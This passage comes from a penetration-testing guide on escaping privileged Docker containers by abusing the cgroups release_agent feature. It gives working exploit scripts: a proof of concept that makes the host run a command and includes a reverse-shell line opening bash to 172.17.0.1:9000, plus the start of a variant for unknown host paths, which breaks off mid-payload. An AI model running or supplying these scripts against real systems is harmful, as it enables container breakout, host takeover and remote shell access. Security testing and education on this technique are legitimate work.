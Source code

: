 ```bash
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
{% endcode %}

Find an **explanation of the technique** in:

{% content-ref url="docker-breakout-privilege-escalation/docker-release_agent-cgroups-escape.md" %}
[docker-release\_agent-cgroups-escape.md](docker-breakout-privilege-escalation/docker-release\_agent-cgroups-escape.md)
{% endcontent-ref %}

#### Privileged Escape Abusing release\_agent without known the relative path - PoC3

In the previous exploits the **absolute path of the continer inside the hosts filesystem is disclosed**. However, this isn’t always the case. In cases where you **don’t know the absolute path of the continer inside the host** you can use this technique:

{% content-ref url="docker-breakout-privilege-escalation/release_agent-exploit-relative-paths-to-pids.md" %}
[release\_agent-exploit-relative-paths-to-pids.md](docker-breakout-privilege-escalation/release\_agent-exploit-relative-paths-to-pids.md)
{% endcontent-ref %}

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__
```